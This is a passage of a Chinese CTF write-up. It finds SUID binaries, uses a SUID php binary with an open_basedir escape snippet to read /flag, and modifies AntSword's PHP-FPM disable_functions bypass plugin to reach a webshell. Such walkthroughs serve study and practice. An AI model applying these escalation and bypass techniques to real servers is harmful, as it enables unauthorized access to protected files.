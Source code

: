 ```bash
drwxr-xr-x    2 root root 4096 Apr  8 00:00 sbin
drwxr-xr-x    2 root root    6 Apr  8 00:00 srv
dr-xr-xr-x   13 root root    0 May  5 04:25 sys
drwxrwxrwt    1 root root    6 May  5 12:40 tmp
drwxr-xr-x    1 root root   19 Apr  8 00:00 usr
drwxr-xr-x    1 root root   39 Apr 29 14:53 var
```
但是发现 **/flag**还是不能读取，之后就是一个简单的suid提权。
```bash
www-data@2be1b7732d18:/$ find / -perm -u=s -type f 2>/dev/null

/bin/mount
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/local/bin/php
```

发现php就有s权限，直接写一个php执行读取即可。

```php
<?php
mkdir('theoyu');
chdir('theoyu');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
echo file_get_contents("/flag");
?>
```

![image-20210505211624222](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505211624222.png)

## 工具流谬杀

本来以为这就结束了，看大佬博客的时候居然看到一位师傅改蚁剑脚本就能解题，我?????，复现一下。

![image-20210505213712742](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505213712742.png)

蚁剑的自带工具就有关于FCGI的disable_function绕过，但要求**fsockopen**函数没有被过滤，并且默认端口为9000，所以当然直接用是绕过不了的。

但是php中还有一个**pfsockopen**函数，两者的区别仅仅只是发包**Keep-Alive**上的区别，对问题毫无影响！那我们直接深入到payload源码中去。

- \antData\plugins\as_bypass_php_disable_functions-master\payload.js
- \antData\plugins\as_bypass_php_disable_functions-master\core\php_fpm\index.js

把9000端口改为9001,**fsockopen**改为**pfsockopen**,然后传一个普通的一句话在html/下，用这个php去连接。

![image-20210505214756517](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505214756517.png)
